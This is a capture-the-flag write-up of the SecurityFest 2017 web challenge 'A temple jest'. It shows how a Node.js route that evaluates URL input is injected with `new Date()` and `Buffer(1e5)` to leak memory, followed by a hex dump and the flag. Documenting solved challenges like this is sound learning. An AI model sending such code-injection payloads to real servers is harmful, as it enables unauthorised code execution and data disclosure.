 ```yaml
---
layout: post
title: "SecurityFest 2017: A temple jest (Web 200)"
author: verr, eth7
categories: writeup
tags: [cat/web, tool/python, lang/javascript, tech/nodejs]
---
```


* **Category:** Web
* **Points:** 200
* **Solves:** 52
* **Description:**

> The target are setting up their intranet communication service. Hack it before they are done! 
> http://alieni.se:3003/

## Write-up

The main page of the challenge displays a *under construction* page with an image loaded from GitHub, no hidden info in the source code, no `robots.txt`.  The HTTP header `X-Powered-By` set to `Express` ([Express.js](https://expressjs.com/)) tells us that we are dealing with a `Node.js` app.

Clicking on the *under construction* sign leads us to `http://alieni.se:3003/render/404`, displaying:

> 404 is under construction...

We get curious and change the url to `http://alieni.se:3003/render/1337`, displaying:

> 1337 is under construction...

Aha, nice! Let us try `http://alieni.se:3003/render/hello` ...

> timeout

Crap. Okay, but how about `http://alieni.se:3003/render/new%20Date()` ... ?

> Wed May 31 2017 22:41:27 GMT+0000 (UTC) is under construction...

Now the solution is obvious, but we struggle to manage to inject interesting code.

After some research, we learn that in Node.js [`Buffer` knows everything](https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md), which allows us to dump memory content. Everything? Well, let's try with a sufficiently large one: `http://alieni.se:3003/render/Buffer(1e5)`

```
│000001e0 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 |                |
│000001f0 00 00 00 00 6b 5f 53 63-68 6d 33 6d 30 72 79 5f |    k_Schm3m0ry_|
│00000200 6c 33 34 6b 7d 2d 2d 2d-53 43 54 46 7b 6d 33 6d |l34k}---SCTF{m3m|
│00000210 30 72 79 5f 6c 33 34 6b-00 00 00 00 00 00 00 00 |0ry_l34k        |
│00000220 72 79 5f 6c 33 34 6b 7d-2d 2d 2d 53 43 54 46 7b |ry_l34k}---SCTF{|
│00000230 00 00 00 00 00 00 00 00-33 34 6b 5f 53 63 68 6d |        34k_Schm|
│00000240 33 6d 30 72 79 5f 6c 33-00 00 00 00 00 00 00 00 |3m0ry_l3        |
│00000250 54 46 7b 6d 33 6d 30 72-79 5f 6c 33 34 6b 5f 53 |TF{m3m0ry_l34k_S|
│00000260 00 00 00 00 00 00 00 00-5f 6c 33 34 6b 7d 2d 2d |        _l34k}--|
│00000270 2d 53 43 54 46 7b 6d 33-00 00 00 00 00 00 00 00 |-SCTF{m3        |
│00000280 6b 5f 53 63 68 6d 33 6d-30 72 79 5f 6c 33 34 6b |k_Schm3m0ry_l34k|
│00000290 00 00 00 00 00 00 00 00-7b 6d 33 6d 30 72 79 5f |        {m3m0ry_|
│000002a0 6c 33 34 6b 5f 53 63 68-00 00 00 00 00 00 00 00 |l34k_Sch        |
│000002b0 33 34 6b 7d 2d 2d 2d 53-43 54 46 7b 6d 33 6d 30 |34k}---SCTF{m3m0|
│000002c0 00 00 00 00 00 00 00 00-53 63 68 6d 33 6d 30 72 |        Schm3m0r|
│000002d0 79 5f 6c 33 34 6b 7d 2d-2d 2d 53 43 54 46 7b 6d |y_l34k}---SCTF{m|
│000002e0 33 6d 30 72 79 5f 6c 33-34 6b 5f 53 63 68 6d 33 |3m0ry_l34k_Schm3|
│000002f0 6d 30 72 79 5f 6c 33 34-ef bf bd 2a ef bf bd 03 |m0ry_l34???*????|
│00000300 00 00 00 00 08 2b ef bf-bd 03 00 00 00 00 00 00 |    ?+????      |
│00000310 00 00 00 00 00 00 ef bf-bd 3a 00 00 00 72 79 5f |      ???:   ry_|
│00000320 08 2c ef bf bd 03 00 00-00 00 ef bf bd 2b ef bf |?,????    ???+??|
│00000330 bd 03 00 00 00 00 00 00-00 00 00 00 00 00 ef bf |??            ??|
│00000340 bd 3a 00 00 00 33 6d 30-72 79 5f 6c 33 34 6b 7d |?:   3m0ry_l34k}|
│00000350 2d 2d 2d 53 43 54 46 7b-6d 33 6d 30 72 79 5f 6c |---SCTF{m3m0ry_l|
│00000360 33 34 6b 5f 53 63 68 6d-33 6d 30 72 79 5f 6c 33 |34k_Schm3m0ry_l3|
│00000370 34 6b 7d 20 25 26 67 74-3b 00 00 ef bf bd 3f 47 |4k} %&gt;  ????G|
│00000380 01 00 00 00 00 ef bf bd-ef bf bd ef bf bd 03 00 |?    ?????????? |
│00000390 00 00 00 70 61 74 68 00-00 00 00 ef bf bd 3f 47 |   path    ????G|
```

With the help of `strings`, we extract the flag:

`SCTF{m3m0ry_l34k_Schm3m0ry_l34k}`




